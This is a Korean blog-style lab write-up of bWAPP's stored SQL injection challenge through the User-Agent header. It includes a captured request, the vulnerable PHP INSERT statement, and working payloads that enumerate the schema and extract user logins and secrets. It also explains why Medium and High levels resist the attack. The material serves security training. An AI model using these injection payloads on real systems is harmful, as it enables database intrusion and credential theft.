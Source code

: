 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (User-Agent)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/stored-useragent-archive/image.png)
- HTTP 요청 헤더의 User-Agent 값이 페이지상에 노출되고 있다.
- 출력되는 문구를 보면 IP 주소와 User-Agent 문자열을 가지고 데이터베이스에 로그인된다.
- 즉 두 값을 가지고 DB에 요청을 하는 거 같다.
- 즉 User-Agent 값을 조작하여 조작된 값과 미완성된 서버측의 SQL 구문이 합쳐져
- DB에 악의적인 질의가 가능하다..

```
GET /bWAPP/sqli_17.php HTTP/1.1
Host: <ip>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<ip>/bWAPP/portal.php
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: BEEFHOOK=UhoQoFNoEivNNG7EheQSAIsf8yrWl2cCOaY1uXgrLizZDIE3F6QYDxbWZ3vLOnqtvLxBoUX7D3L6LmPP; security_level=0; PHPSESSID=213a612355e7ca062dfdb9868aca27e2
Connection: close
```

- Burp Suite를 통해 요청 패킷을 잡아보면 위와 같이 존재한다.

![그림 1-2](/assets/image/bwapp/injection/stored-useragent-archive/image2.png)
- User-Agent 에 ‘(싱글쿼터)를 넣게되면 그림 1-2와 같이 DBMS Error를 반환한다.

> ``` $sql = "INSERT INTO visitors (date, user_agent, ip_address) VALUES (now(), '" . sqli($user_agent) . "', '" . $ip_address . "')";```

- 미완성된 SQL구문은 위 코드와 같이 이루어져 있다.
- (now(),useragent,ip) 와 같이 이루어져 있다.

```sql
User-Agent: a','192.168.146.1')#
```

![그림 1-3](/assets/image/bwapp/injection/stored-useragent-archive/image3.png)
- 위 코드와 같이 User-Agent 값을 변조해서 보내게 되면 a가 출력된다.
- 하지만 해당 부분인 문자열로 감싸져 있어서 이를 탈출하기가 불가능 하여
- 뒷 부분에 이어지는 IP_ADDRESS 부분을 변조시킬 수 있다.

```sql
User-Agent: a',(select schema_name from information_schema.schemata limit 1,1))#
```

![그림 1-4](/assets/image/bwapp/injection/stored-useragent-archive/image4.png)
- 위와 같이 IP Address 부분에 bWAPP 데이터베이스가 노출되었다.
- 이와 같이 테이블명 및 컬럼명 추출이 가능하다.

```sql
User-Agent: a',(select table_name from information_schema.tables where table_schema='bWAPP' limit 3,1))#
```

```sql
User-Agent: a',(select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 1,1))#
```

```sql
User-Agent: a',(select concat(login,0x3a,secret) from bWAPP.users limit 1,1))#
```

![그림 1-5](/assets/image/bwapp/injection/stored-useragent-archive/image5.png)
- 성공적으로 데이터를 추출할 수 있다.


## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.


